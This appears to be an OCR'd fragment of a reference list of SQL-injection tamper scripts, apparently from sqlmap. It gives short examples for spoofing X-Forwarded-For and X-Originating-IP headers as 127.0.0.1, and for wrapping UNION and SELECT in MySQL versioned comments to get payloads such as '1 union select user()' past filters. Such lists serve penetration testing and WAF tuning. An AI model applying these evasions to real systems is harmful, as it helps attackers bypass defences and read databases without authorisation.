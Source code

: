 ~~~
insert ==> INSERT
~~~
## varnish.py
Function: header
example
~~~
X-originating-IP: 127.0.0.1
~~~
## versionedkeywords.py
Function: union ==> /!union/
Platform: MySQL 4.0.18, 5.1.56, 5.5.11
example
~~~
1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
~~~
## versionedmorekeywords.py
Function: union ==> /!union/
Platform: MySQL 5.1.56, 5.5.11
example
~~~
1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
~~~
## xforwardedfor.py
Function: X-Forwarded-For Random Head
Platform: All
example
~~~
X-Forwarded-For: 127.0.0.1
~~~
